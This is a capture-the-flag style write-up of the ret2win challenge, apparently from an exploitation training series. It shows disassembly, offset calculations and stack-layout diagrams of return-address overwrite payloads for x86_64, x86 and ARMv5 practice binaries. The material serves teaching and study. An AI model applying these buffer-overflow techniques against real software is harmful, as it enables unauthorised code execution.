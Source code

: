 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```bash
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.
For all architectures, the buffer overflow is a read of 56 bytes into a 32 bytes buffer.

## x86_64:
```asm
0000000000400733 <pwnme + 0x4b>:
  400733:	48 8d 45 e0      lea    rax,[rbp-0x20]
  400737:	ba 38 00 00 00   mov    edx,0x38
  40073c:	48 89 c6         mov    rsi,rax
  40073f:	bf 00 00 00 00   mov    edi,0x0
  400744:	e8 47 fe ff ff   call   400590 <read@plt>
...

0000000000400754 <pwnme + 0x6c>:
  400754:	c9               leave
  400755:	c3               ret
```
We have only the 32 bytes for the buffer, so it will only take 40 bytes to reach the return address.
However, this is a x64 challenge so the stack pointer has to be 16-byte aligned when returning
from functions. To avoid a segfault on an aligned memory move, we can stick the address of a `ret`
instruction before the ret2win address.
```
┌─────────────────────────┐  ┌─────────────────────────┐
│ buffer                  │  │ 20 20 20 20 20 20 20 20 │ <- padding (40 bytes)
│                         │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  │ 20 20 20 20 20 20 20 20 │
│ old_rbp                 │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  ├─────────────────────────┤
│ ret                     │  │ 0x400755                │ <- ret
├─────────────────────────┤  ├─────────────────────────┤
│ ...                     │  │ 0x400756                │ <- ret2win address
└─────────────────────────┘  └─────────────────────────┘
```
## x86:
```asm
08048609 <pwnme + 0x5c>:
 8048609:	6a 38            push   0x38
 804860b:	8d 45 d8         lea    eax,[ebp-0x28]
 804860e:	50               push   eax
 804860f:	6a 00            push   0x0
 8048611:	e8 9a fd ff ff   call   80483b0 <read@plt>
...
0804862a <pwnme + 0x7d>
 804862a:	c9                   	leave
 804862b:	c3                   	ret
```
Since the `leave` instruction is cleaning the stack frame for this function,
and the read call is writing at `[ebp - 0x28]`, we can deduce that the return address will be
at `buffer + 0x28 + 0x4 = buffer + 44`. Thus we need 44 bytes of padding, then the ret2win address
```
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (44 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old rbp     │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ ret         │  │ 0x804862c   │ <- ret2win address
└─────────────┘  └─────────────┘
```

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
In ARMv5, the return address is the `lr` register.   
So in order to overwrite it, we need 36 bytes of padding, then the ret2win address.   
```bash
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old fp      │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
